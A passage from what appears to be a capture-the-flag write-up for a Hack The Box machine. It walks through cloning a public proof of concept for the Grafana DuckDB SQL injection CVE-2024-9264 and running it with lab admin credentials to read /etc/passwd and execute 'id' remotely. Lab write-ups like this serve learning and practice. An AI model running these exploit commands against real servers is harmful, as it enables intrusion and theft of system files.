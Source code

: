 ### CVE-2024-9264 Grafana Post-Auth DuckDB SQL Injection (RCE, File Read)

{% embed url="https://github.com/nollium/CVE-2024-9264" %}

Follow the github PoC

<pre class="language-bash" data-title="Exploit installation"><code class="lang-bash">git clone https://github.com/nollium/CVE-2024-9264
cd CVE-2024-9264
<strong>python3 -m venv CVE-2024-9264
</strong>source CVE-2024-9264/bin/activate
pip install -r requirments.txt
</code></pre>

Try to exploit this vulnerability to read a file with user privide at the inizial part of this box.

{% code overflow="wrap" %}
```bash
python3 CVE-2024-9264.py -u 'admin' -p '0D5oT70Fq13EvB5r'  -f /etc/passwd  http://grafana.planning.htb
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/image (47).png" alt=""><figcaption></figcaption></figure>

And then, try to test RCE vulnerability

{% code overflow="wrap" %}
```bash
python3 CVE-2024-9264.py -u 'admin' -p '0D5oT70Fq13EvB5r'  -c id  http://grafana.planning.htb
```
{% endcode %}
